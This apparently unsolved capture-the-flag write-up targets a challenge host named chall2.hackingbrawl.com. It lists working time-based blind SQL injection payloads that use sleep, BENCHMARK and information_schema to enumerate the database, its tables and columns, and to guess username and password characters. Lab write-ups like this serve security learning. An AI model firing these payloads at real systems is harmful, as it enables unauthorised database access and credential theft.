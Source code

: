 # Not Just SQL (Unsolved)

**Date:** 04, July, 2021

**Author:** Dhilip Sanjay S

---

- There have been a breakthrough in our heist but we still cant access `chall2.hackingbrawl.com` as a privileged user.

### Database is the hell
- **Hint:** I am blind folded
- **Steps to Reproduce:** 
    - Use python script
    - To find the database: `1' and (select sleep(10) from dual where database() like '%')-- `
        - Database name: `hack`
    - To find the table name: `1' and (select sleep(10) from dual where (select table_name from information_schema.columns where table_schema=database() and column_name like '%pass%' limit 0,1) like '%')-- `
        - Table name: `tab`
    - To find the column count:
        - `1' and (select sleep(10) from dual where (select count(column_name) from information_schema.columns where table_schema=database() and table_name like 'tab%' limit 0,1) like '%')-- `
    - To find the column names:
        - `1' and (select sleep(10) from dual where (select column_name from information_schema.columns where table_schema=database() and table_name like 'tab%' limit 0,1) like '%')-- `
            - username
            - password
    - To find the username: (Didn't work!)
        - `1' and (select sleep(10) from dual where (select username from tab limit 0,1) like '%')-- `


## Testing Payloads

```sql
select count(*) from table_name where table_name = (select table_name from information_schema.columns where table_schema=database() and table_name like 'user%');

' AND (SELECT (CASE WHEN EXISTS(SELECT username FROM tab WHERE username REGEXP "^a.*") THEN SLEEP(3) ELSE 1 END)); --

1' AND (SELECT (CASE WHEN EXISTS(SELECT username FROM tab WHERE username LIKE '%') THEN SLEEP(3) ELSE SLEEP(10) END)); --

1' UNION SELECT IF(SUBSTRING(password,1,1) = CHAR(50),BENCHMARK(5000000,ENCODE('MSG','by 5 seconds')),null) FROM tab WHERE username LIKE '%'-- 
```

---